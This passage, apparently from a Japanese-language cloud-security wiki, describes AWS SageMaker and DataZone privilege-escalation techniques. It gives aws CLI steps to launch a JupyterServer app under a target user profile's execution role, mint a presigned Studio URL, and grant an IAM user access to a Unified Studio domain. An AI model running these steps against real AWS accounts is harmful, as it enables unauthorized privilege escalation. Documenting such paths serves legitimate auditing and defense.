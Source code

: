```bash
# 6) Open the URL in browser, navigate to JupyterLab, open Terminal and verify:
#    aws sts get-caller-identity
#    (should show the high-privilege role from domain defaults)
```
**Potential Impact**: インタラクティブな Studio セッションにおいて、指定された SageMaker 実行ロールの権限への特権昇格

### `sagemaker:CreateApp`, `sagemaker:CreatePresignedDomainUrl`

ターゲットの UserProfile に対して SageMaker Studio アプリを作成する権限を持つ攻撃者は、そのプロファイルの `ExecutionRole` で動作する JupyterServer アプリを起動できます。これにより、Jupyter ターミナルや Studio から起動したジョブを通じてロールの権限に対するインタラクティブなアクセスが得られます。

Steps:
```bash
# 1) List Studio domains and pick a target
aws sagemaker list-domains --query 'Domains[].{Id:DomainId,Name:DomainName}'

# 2) List Studio user profiles and pick a target
aws sagemaker list-user-profiles --domain-id-equals <DOMAIN_ID>

# 3) Create a JupyterServer app for the user profile
aws sagemaker create-app \
--domain-id <DOMAIN_ID> \
--user-profile-name <USER> \
--app-type JupyterServer \
--app-name js-privesc

# 4) Generate a presigned URL to access Studio
aws sagemaker create-presigned-domain-url \
--domain-id <DOMAIN_ID> \
--user-profile-name <USER> \
--query AuthorizedUrl --output text

# 5) Open the URL in browser, navigate to JupyterLab, open Terminal and verify:
#    aws sts get-caller-identity
```
**Potential Impact**: 対象の UserProfile にアタッチされた SageMaker 実行ロールへの対話的アクセス。


### `iam:GetUser`, `datazone:CreateUserProfile`

これらの権限を持つ攻撃者は、対象の IAM ユーザーのために DataZone User Profile を作成することで、その IAM ユーザーに Sagemaker Unified Studio Domain へのアクセスを付与できます。
```bash
# List domains
aws datazone list-domains --region us-east-1 \
--query "items[].{Id:id,Name:name}" \
--output json

# Add IAM user as a user of the domain
aws datazone create-user-profile \
--region us-east-1 \
--domain-identifier <domain-id> \
--user-identifier <arn-user> \
--user-type IAM_USER
```
The Unified Domain URL は次の形式です: `https://<domain-id>.sagemaker.<region>.on.aws/` (例: `https://dzd-cmixuznq0h8cmf.sagemaker.us-east-1.on.aws/`).
